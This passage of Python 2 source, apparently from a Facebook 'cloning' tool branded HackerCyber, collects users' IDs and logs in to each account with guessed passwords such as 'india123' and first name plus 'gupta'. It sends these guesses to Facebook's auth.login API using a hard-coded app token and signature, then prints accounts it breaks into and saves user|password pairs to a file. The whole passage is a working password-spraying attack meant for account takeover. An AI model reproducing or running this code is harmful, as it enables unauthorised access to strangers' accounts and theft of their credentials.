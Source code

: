 		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))
	jalan('\033[1;92mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m«-----\x1b[1;93m♡To Stop Process Press CTRL+Z♡\033[1;94mHackerCyber----»"
	print "\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤\033[1;96mHackerCyber\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤"
	jalan(' \033[1;93m .......................Cloning Start plzzz Wait....................... ')
	print "\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤\033[1;96m\033[1;95m◥◤◥◤◥◤◥◤◥◤◥◤◥◤•◈•◥◤◥◤◥◤◥◤◥◤◥◤◥◤"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:hacker_indo
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('india123')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;91m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = (j['first_name']+'gupta')
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;91m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)